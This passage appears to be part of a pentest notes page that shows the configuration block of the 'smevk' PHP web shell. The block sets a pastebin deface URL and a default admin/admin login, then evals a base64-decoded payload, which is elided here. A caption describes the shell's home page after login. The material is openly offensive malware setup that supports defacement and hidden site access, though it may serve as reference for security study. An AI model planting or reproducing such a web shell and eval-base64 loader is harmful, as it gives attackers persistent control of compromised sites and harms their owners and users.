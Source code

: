 Domain read bypass.

Enjoy!

\*/

//Make your setting here.

$deface\_url = 'http://pastebin.com/raw.php?i=FHfxsFGT'; //deface url here\(pastebin\).

$UserName = "admin"; //Your UserName here.

$auth\_pass = "admin"; //Your Password.

//Change Shell Theme here//

$color = "\#8B008B"; //Fonts color modify here.

$Theme = '\#8B008B'; //Change border-color accoriding to your choice.

$TabsColor = '\#0E5061'; //Change tabs color here.

\#-------------------------------------------------------------------------------

?&gt;

&lt;?php

$smevk ="...";

eval\("?&gt;".\(base64\_decode\($smevk\)\)\);

?&gt;

![](../.gitbook/assets/2%20%284%29.png)

smevk.php home page after logging in.
